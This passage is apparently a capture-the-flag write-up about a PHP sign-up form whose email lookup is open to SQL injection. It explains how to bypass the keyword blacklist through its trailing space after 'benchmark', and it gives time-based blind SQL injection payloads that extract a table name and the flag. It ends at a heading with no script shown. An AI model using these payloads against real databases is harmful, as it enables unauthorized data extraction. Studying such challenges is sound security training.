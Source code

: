 <p>Now, we have source:</p>

```php
<?php
        ini_set('display_errors',0);
        session_start();
        include_once("db.php");
        if ($db->connect_errno){
        die('Could not connect');
    }
    function isExist($email){
        global $db;
        $query="select * from info where email='".$email."'";
        $result=$db->query($query);
        if (@$result->num_rows > 0) return True; else return False;
    }
    function filter($name){
        if (preg_match ("/drop|delete|update|insert|into|file_get_contents|load_file|outfile|column|ascii|ord|sleep|benchmark /is",$name))
                return False;
        return True;
    }

    if (isset($_POST['name'])||!empty($_POST['name'])||isset($_POST['email'])||!empty($_POST['email'])){
        $name= $_POST['name'];
        $email=$_POST['email'];
        if (filter($name)===True&&filter($email)===True){
                if (isExist($email)===False){
                $query = $db->prepare("INSERT INTO info (name,email) VALUES (?, ?)");
                        $query->bind_param("ss", $name, $email);
                        $query->execute();
                }
        }
        echo "Success";
    }
?>
```

<p>The <code>isExist()</code> function is vulnerable to <strong>SQL Injection</strong> in <code>email</code> parameter. But there are some filters:</p>
<pre><code class="language-php">function filter($name){
    if (preg_match ("/drop|delete|update|insert|into|file_get_contents|load_file|outfile|column|ascii|ord|sleep|benchmark /is",$name))
            return False;
    return True;
}
</code></pre>
<p>When looking closer, we can see that the filter matches <code>benchmark </code> (include space) not <code>benchmark</code> pattern. The rest is to write the time-based script to extract the data.</p>
<h3 id="extracttablename">Extract table name</h3>
<p><code>QUERY = "' UNION SELECT null,null,(IF(BINARY SUBSTRING((SELECT table_name FROM information_schema.tables where TABLE_SCHEMA = database() and table_name != 'info'),{pos},1) = BINARY '{char}',BENCHMARK(5000000,ENCODE('MSG','by seconds')),null)) FROM info; -- -"</code><br>
-> Table: <code>get_point</code></p>
<h3 id="extractflag">Extract flag</h3>
<p>Because <code>column</code> is in black list, we have to extract data without column name. Follow hint to <a href="https://tsublogs.wordpress.com/2017/06/07/pentest-qa-cung-tsu-5-sql-injection-without-information_schema/"><strong>@tsu</strong> blog</a><br>
The flag index is 2 in <code>get_point</code> table:<br>
<code>QUERY = "' UNION SELECT null,null,(IF(SUBSTRING((SELECT col_1 from (SELECT 1 as col_1 union select * from get_point limit 1 offset 2) x_table),{pos},1) = BINARY '{char}',BENCHMARK(5000000,ENCODE('MSG','by seconds')),null)) FROM info; -- -"</code></p>
<h3 id="fullscript">Full script</h3>